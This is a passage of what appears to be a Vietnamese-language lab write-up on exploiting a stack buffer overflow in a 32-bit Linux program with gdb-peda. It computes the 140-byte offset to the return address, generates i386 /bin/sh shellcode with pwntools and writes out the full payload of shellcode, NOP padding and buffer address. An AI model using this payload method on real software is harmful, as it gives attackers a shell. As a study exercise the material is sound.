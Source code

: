 ![Untitled 21](https://user-images.githubusercontent.com/64480713/182160226-75e37f2d-a7ff-4d12-8f0f-8a4b70dc95aa.png)

- **Có sự thay đổi về `eip`** nhưng quan trọng là khi chạy với 140 ký tự `A` thì
  4 bytes tiếp theo sẽ là return address ở vị trí `0xbffffc2c`.
- Bây giờ sẽ overwrite return address với địa chỉ bắt đầu của `buf` là
  `0xbffffba0`:

```c
gdb-peda$ run $(printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\xfb\xff\xbf")
```

> Dùng `printf` để truyền dữ liệu là hex vào chương trình.

![Untitled 22](https://user-images.githubusercontent.com/64480713/182160231-df748913-ca73-4b63-bab5-627ca222a96f.png)

- Có thể thấy địa chỉ return đã được đưa trở về đầu của `buf`.
- Ta có thể chạy shellcode để tự tạo shell bash bằng cách thay một số chữ `A`
  đầu bằng chuỗi shell code.
- Chuỗi shellcode sample có kích thước là **44**:

```bash
$ pwn shellcraft i386.linux.sh
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/misskanari/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.0)
6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80
```

```bash
\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

Reference: [https://docs.pwntools.com/en/stable/shellcraft/i386.html#pwnlib.shellcraft.i386.linux.sh](https://docs.pwntools.com/en/stable/shellcraft/i386.html#pwnlib.shellcraft.i386.linux.sh)

- Ta sẽ thay ký tự `A` thành `\x90`.
- Sau khi **giảm đi 44 ký tự `\x90` ở đầu** và **prepend chuỗi shellcode** và
  **append địa chỉ trả về** ta được chuỗi như sau:

```bash
gdb-peda$ run $(printf "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xa0\xfb\xff\xbf")
```

Hoặc có thể dùng python để truyền chuỗi vào chương trình:

```c
gdb-peda$ run $(python -c 'print "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xa0\xfb\xff\xbf"')
```

